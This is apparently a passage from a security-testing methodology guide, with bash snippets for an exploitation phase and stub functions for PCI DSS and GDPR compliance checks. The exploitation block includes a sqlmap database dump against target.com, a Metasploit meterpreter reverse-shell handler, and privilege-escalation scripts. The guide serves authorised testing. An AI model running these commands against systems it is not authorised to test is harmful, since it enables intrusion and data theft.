 #### Phase 4: Exploitation & Post-Exploitation

```bash
# Systematic exploitation approach
exploitation_phase() {
  # Web application exploitation
  sqlmap -u "http://target.com/page?id=1" --batch --dbs

  # Network service exploitation
  msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; run"

  # Privilege escalation
  linpeas.sh  # Linux privilege escalation
  winpeas.exe # Windows privilege escalation
}

# Post-exploitation activities
post_exploitation() {
  # Data discovery and exfiltration simulation
  find_sensitive_data

  # Lateral movement testing
  test_lateral_movement

  # Persistence mechanisms
  test_persistence_methods
}
```

## Compliance & Risk Management

### Security Compliance Technical Validation

#### PCI DSS Technical Testing

```bash
# PCI DSS automated compliance checking
pci_dss_scan() {
  # Test cardholder data protection
  check_data_encryption
  check_access_controls
  check_network_segmentation
  check_vulnerability_management

  # Generate PCI compliance report
  generate_pci_report --standard pci-dss-3.2.1 --output pci_compliance_$(date +%Y%m%d).pdf
}

# GDPR privacy compliance assessment
gdpr_compliance_check() {
  check_data_processing_lawfulness
  check_data_subject_rights
  check_privacy_by_design
  check_data_breach_procedures
}
```

